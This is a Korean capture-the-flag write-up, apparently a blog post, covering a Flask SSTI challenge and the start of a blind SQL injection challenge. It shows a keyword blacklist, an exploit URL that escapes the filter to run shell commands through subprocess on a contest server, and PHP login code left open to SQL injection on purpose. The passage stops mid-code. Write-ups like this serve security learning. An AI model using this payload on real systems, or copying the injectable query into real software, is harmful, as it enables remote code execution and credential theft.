 NodeJS vm2 sandbox 취약점을 활용하여 RCE하는 sandbox 문제를 풀지 못한채로 끝나버려서 아쉬움이 남는 대회였다... (야간 근무를 가야했기에 ...)    

## 1. for_beginner    

SSTI 취약점을 활용해 RCE 하는 문제였다.   
    
```python
@app.route('/')
def main():
    name = request.args.get("name", "World")
    return render_template_string(f'Hello {name}!!')
```    

Flask에서 랜더링 함수인 `render_template_string()`에서 `SSTI` 취약점이 발생한다.     
    
```python
blacklist = ['os','subprocesses','exec','vars','sys','"','\+',
             'open','rm','main','static','templates','ctf','rf',
             'spawnlp','execfile','dir','dev','tcp','sh','import',
             'built','__class__','for','request','\,','app','file',
             'url_for','\[','\]','config']

def Prevent_SSTI(input):
    for i in blacklist:
        res = re.search(i,input)
        if res:
            return True
    else:
        return False
```

키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다. 

## Exploit Code
```python
http://3.34.190.217:1337/?name={{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()}}
```

### FLAG   
hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}

## 2. for_beginner-SQL 
   
Blind SQL Injection을 사용하여 관리자 패스워드를 알아내는 문제였다. 

```php
<?php
session_start();
require_once "config/dbconn.php";

$userid = $_GET['userid'];
$password = $_GET['password'];

if(isset($userid) && isset($password)) {
    $query = "SELECT userid, password FROM user WHERE userid = '${userid}' and password = '".md5($password)."'";
    try {
        $result = $mysqli->query($query);
        $data = mysqli_fetch_array($result);
        if(isset($data) && $data[0] == "admin" && $data[1] === md5($password)){
            die($flag);
	    } else {
		    die("Wrong...");
	    }
    } catch(Exception $e) {
```